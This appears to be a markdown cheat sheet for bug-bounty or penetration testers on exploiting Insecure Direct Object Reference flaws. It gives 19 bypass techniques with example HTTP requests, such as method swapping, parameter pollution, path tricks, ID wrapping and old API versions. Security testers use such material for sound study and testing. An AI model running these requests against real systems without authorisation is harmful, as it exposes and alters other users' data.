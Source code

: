 # Insecure Direct Object Reference (IDOR)

## Locations:

### 1: URL

### 2: JS Files

### 3: Content loaded via an AJAX request

#### Use parameter mining attack to uncover sensitive to IDOR parameters.

# IDs

### 1: Encoded (Base64)

### 2: Hashed (MD5)

### 3: Unpredictable (Create 2 accounts and swap ID numbers between them)


## IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## Steps

1. Create two accounts if possible or else enumerate users first.

2. Check if the endpoint is private or public and does it contains any kind of id param.

3. Try changing the param value to some other user and see if does anything to their account.

4. Done !!

## Examples:

#### 1) Image profile [ ] delete account [ ] information account [ ] VIEW & DELETE & Create api_key [ ] allows to read any comment [ ] change price [ ] change the coin from dollar to uaro [ ] Try to decode the ID, if the ID is encoded using md5,base64, etc

    GET /GetUser/dmljdGltQG1haWwuY29t

#### 2) Change HTTP method

    GET /users/delete/victim_id ->403
    POST /users/delete/victim_id ->200

#### 3) Try replacing parameter names

Instead of this:

    GET /api/albums?album_id=<album id>

Try This:

    GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.

#### 4) Path Traversal

    POST /users/delete/victim_id ->403
    POST /users/delete/my_id/..victim_id ->200

#### 5) Change request content-type

    Content-Type: application/xml -> Content-Type: application/json

#### 6) Swap non-numeric with numeric ID

    GET /file?id=90djbkdbkdbd29dd
    GET /file?id=302

#### 7) Missing Function Level Access Control

    GET /admin/profile ->401
    GET /Admin/profile ->200
    GET /ADMIN/profile ->200
    GET /aDmin/profile ->200
    GET /adMin/profile ->200
    GET /admIn/profile ->200
    GET /admiN/profile ->200

#### 8) Send wildcard instead of an ID

    GET /api/users/user_id -> GET /api/users/*

#### 9) Never ignore encoded/hashed ID

For a hashed ID, create multiple accounts and understand the pattern application users to allot an ID

#### 10) Google Dorking/public form

Search all the endpoints having ID which the search engine may have already indexed

#### 11) Bruteforce Hidden HTTP parameters

Tools: arjun, paramminer

#### 12) Bypass object level authorization. Add parameter onto the endpoint if not present by default

    GET /api_v1/messages ->200
    GET /api_v1/messages?user_id=victim_uuid ->200

#### 13) HTTP Parameter Pollution gives multiple values for the same parameter

    GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
    GET /api_v1/messages?user_id=victim_id&user_id=attacker_id

#### 14) Change file type

    GET /user_data/2341 -> 401
    GET /user_data/2341.json -> 200
    GET /user_data/2341.xml -> 200
    GET /user_data/2341.config -> 200
    GET /user_data/2341.txt -> 200

#### 15) JSON parameter pollution

    {"userid":1234,"userid":2542}

#### 16) Wrap the ID with an array in the body

    {"userid":123} ->401
    {"userid":[123]} ->200

#### 17) Wrap the ID with a JSON object

    {"userid":123} ->401
    {"userid":{"userid":123}} ->200

#### 18) Test an outdated API version

    GET /v3/users_data/1234 ->401
    GET /v1/users_data/1234 ->200

#### 19) Find IDOR using GraphQL if the website uses GraphQL

    GET /graphql
    GET /graphql.php?query=
